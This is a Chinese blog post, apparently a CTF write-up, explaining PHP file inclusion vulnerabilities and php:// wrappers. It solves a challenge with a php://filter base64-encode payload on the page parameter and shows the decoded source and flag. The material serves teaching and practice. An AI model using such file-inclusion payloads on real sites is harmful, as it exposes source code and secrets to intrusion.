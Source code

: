
---

layout:     post                    # 使用的布局（不需要改）
title:      FileInclude # 标题 
subtitle:       #副标题
date:       2020-03-15              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - FileInclude  
    - Web
    
---

## 简介:

   程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，
而无需再次编写，这中文件调用的过程一般被称为文件包含。
   程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，
但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。





## 题目:

``` html
<body> 

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="http://blue-whale.me/">blue-whale.me</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="./?page=home">Home</a></li>
              <li class="active"><a href="./?page=flag">Flag</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



ha ha? you want flag? flag is here, but don't let you see!

      <footer>
        <p>&copy; Blue-Whale 2017</p>
      </footer>

    </div> <!-- /container -->


  </body>

```

## 考察点：

**1.文件包含的基本原理**

**2.文件包含如何构造payload**


## 知识点：

PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。最常见的就属于本地文件包含（Local File Inclusion）漏洞了。

程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

文件包含漏洞分为：
1.本地文件包含漏洞
顾名思义，就是在网站服务器本身存在恶意文件，然后利用本地文件包含使用
2.远程文件包含漏洞
远程文件包含就是调用其他网站的恶意文件进行打开


php常见的几个文件包含函数：
include(),   include_once(),  fopen(), require(),  require_once()

php伪协议的分类

伪协议是文件包含的基础，理解伪协议的原理才能更好的利用文件包含漏洞。

php://input

php://input代表可以访问请求的原始数据，简单来说POST请求的情况下，php://input可以获取到post的数据。

使用条件：include( )、include_once( )、file_get_contents( )

比较特殊的一点，enctype=”multipart/form-data”的时候 php://input 是无效的。

用法举例：

使用file_get_contents函数的伪协议包含有个经典的例子；
可以使用fputs文件输入流直接服务器某一存在的目录下写入文件。
 

php://output

php://output 是一个只写的数据流，允许你以print和echo一样的方式写入到输出缓冲区。

php://filter

php://filter是一种元封装器，设计用于数据流打开时的筛选过滤应用，也就是作为一种过滤器，可以使用在数据流产生的地方。

在php文档中，标准的定义是这样的：

类似的过滤器还有string.rot13、string.strip_tags、zlib.deflate和zlib.inflate等等，目前只要知道convert.base64-encode就好了。

URL 中包含点的常见形式

?file = xxx 或者 ?file = xxx.php



## 解题过程：

**1.** 首先分析页面代码，发现<li class="active"><a href="./?page=home">Home</a></li>
              <li class="active"><a href="./?page=flag">Flag</a></li>  ，可能出现文件包含漏洞.




**2.** 然后开始构造payload，分析页面发现，http://vps1.blue-whale.me:23338/?page=flag ,这里是靠page参数进行跳转页面，
于是构造payload : ?page=php://filter/read/resource=./flag   ,此段代码的含义可理解为筛选page=flag的页面并读取。但是页面并没有反应，于是我猜想可能是因为过滤了read这个关键词（一般会对一些伪协议的关键词进行过滤，如read、resource等等）。

**3.**试一下将read这个关键词进行BASE64加密，新的payload：?page=php://filter/read=convert.base64-encode/resource=./flag

**4.**得到一组BASE64加密的字符串
`aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=`

**5.**进行解密，得到flag！
`
ha ha? you want flag? flag is here<?php
// try to read this source code
//$flag = 'flag{really_basic_skill_web_dog_should_know}';
?>, but don't let you see! `


**lag{really_basic_skill_web_dog_should_know}**





[参考链接（一）--文件包含原理](https://blog.csdn.net/qq_42133828/article/details/83927058)

[参考链接（二）--文件包含的技巧](https://www.cnblogs.com/ichunqiu/p/10683379.html)

## 谢谢您的查阅，欢迎来访！
